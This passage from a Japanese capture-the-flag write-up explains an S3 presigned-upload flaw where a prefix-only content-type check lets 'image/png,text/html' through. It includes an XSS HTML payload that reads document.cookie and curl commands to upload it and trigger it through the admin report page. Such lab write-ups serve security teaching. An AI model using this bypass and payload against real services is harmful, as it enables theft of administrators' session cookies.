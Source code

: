 ```typescript
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type', 'content-length']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
```

これらのチェックを通過した場合、`image/png,text/html`というように、`image/png`から始まる任意の文字列を指定することで、任意の HTML ファイルをアップロードすることが可能です。

### 攻略の糸口

このチャレンジでは、`contentType`の前方一致をチェックしていることがポイントとなります。

`image/png,text/html`というように、`image/png`から始まる任意の文字列を指定することで、任意の HTML ファイルをアップロードすることが可能です。

大まかな流れはシナリオ 4-1 と同様です。

以下の HTML ファイルを `xss.html` として保存します。

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

保存した HTML ファイルを用いて、以下のようなコマンドを実行します。

```sh
TARGET_HOST="....."
FILE=xss.html
LENGTH=$(stat -c %s $FILE)
URL=$(curl -X POST https://${TARGET_HOST}/api/upload \
  -H "Content-Type: application/json" \
  -d '{"contentType":"image/png,text/html","length":'$LENGTH'}') | jq -r '.url'
curl -X PUT $URL --upload-file $FILE -H "Content-Type: image/png,text/html"
```

その後、出力された URL を Report URL に入力することで、管理者の画面で任意の JavaScript を実行することが可能です。
実行後は、`/delivery/{uuid}`の S3 に保存されたファイルを閲覧することで、管理者の Cookie を含んだ HTML ファイルを閲覧することが可能です。

## 4-3 include における Validation の Bypass (Just included?)
